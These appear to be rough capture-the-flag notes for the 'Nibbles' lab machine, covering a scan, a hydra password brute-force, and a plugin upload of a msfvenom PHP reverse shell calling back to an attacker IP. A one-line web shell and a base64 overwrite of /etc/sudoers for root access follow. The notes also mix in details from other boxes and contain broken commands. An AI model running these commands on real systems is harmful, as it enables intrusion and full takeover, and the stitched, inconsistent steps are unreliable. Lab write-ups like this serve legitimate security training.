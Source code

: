 ### nmap
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)

80/tcp open  http Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

### Have checked port 80 -- nothing
```
suspicious: port 22 -- OpenSSH 7.2p2 Ubuntu 4ubuntu22 -- shocker vulnerability.
```
```
If we're given ssh and an HTTP server as possible attack vectors, we can almost always assume the HTTP server is the target. Vulnerabilities in SSH aren't too common and generally won't be found on challenges ranked easy. 

That being said, let's dive into this HTTP server. Navigating to http://10.10.10.75/ brings us to a page simply saying Hello World!, but after looking at the page source we see the following:
```

### gobuster
```
gobuster discover /admin.php
```

once see admin login page, try to guess/google default password

### hydra
or set up hydra to start a dictionary attack against this login. The syntax for this attack is as follows: [https://www.kali.org/tools/hydra/](https://www.kali.org/tools/hydra/)
```
hydra -P /usr/share/wordlists/nmap.lst -l admin 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect"
```

### searchsploit
With access to the admin console as well as the version information, we are well on our way to our initial shell. Using searchsploit we can check for public exploits:
```
searchsploit nibbleblog 4.0.3
```

Remember to read the exploit -- for this case, i know that an attacker can use the plugin My image to upload a php file and then execute it at http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php. 
(there're public & private directories, although public contains 'upload'-- but only image, and private directory has PHP files)

### initial shell
we'll need a reverse shell to upload. To do this we'll use msfvenom to generate the payload:
```
echo '<?php' > evil.php && msfvenom -p php/reverse_php LHOST=10.10.14.7 LPORT=31337 -f raw >> evil.php && echo '?>' >> evil.php
```

### escalation
### sudo -l
to check if there's passwordless sudo access to anything:
```
sudo -l
```
```
Matching Defaults entries for nibbler on Nibbles:
 env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
 (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

### SSH port-forwarding:
```
ssh -i user@password -L9000:10.10.10.75:80 10.10.10.73
```
(ssh credentials from .73, by doing this, u will have .73 as ur local ip)
```
cmd.php -- to test if can get a shell back, if yes, next step will be replace it with a reverse shell script to get the shell)
```
```
<?php echo system ($_REQUEST['ipp']); ?>
```
### on burp control+u safe encoding

### overwriting /etc/sudoers file with base64
### [use cyberchef](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D'))
making myself sudo user by adding myself to /etc/sudoers file without password
```
nibbler ALL=(ALL) NOPASSWD:ALL
bmliYmxlciAgICAgQUxMPShBTEwpIE5PUEFTU1dEOkFMTA==
```
i want monitor.sh to help me write to /etc/sudoers file with this command:
```
echo "bmliYmxlciAgICAgQUxMPShBTEwpIE5PUEFTU1dEOkFMTA==" | base64 -d > /etc/sudoers
```
i use the same base64 method to overwrite monitor.sh with the above command:
```
echo "ZWNobyAiYm1saVlteGxjaUFnSUNBZ1FVeE1QU2hCVEV3cElFNVBVRUZUVTFkRU9rRk1UQT09IiB8IGJhc2U2NCAtZCA+PiAvZXRjL3N1ZG9lcnM=" | base64 -d > monitor.sh
```

### generate meterpreter shell:
```
┌──(kali㉿kali)-[~/osep/pepe/prep/10_linux_post_exploitation]
└─$ python3 makewrap.py -a 64 -l 10.10.14.7 -p 4443
```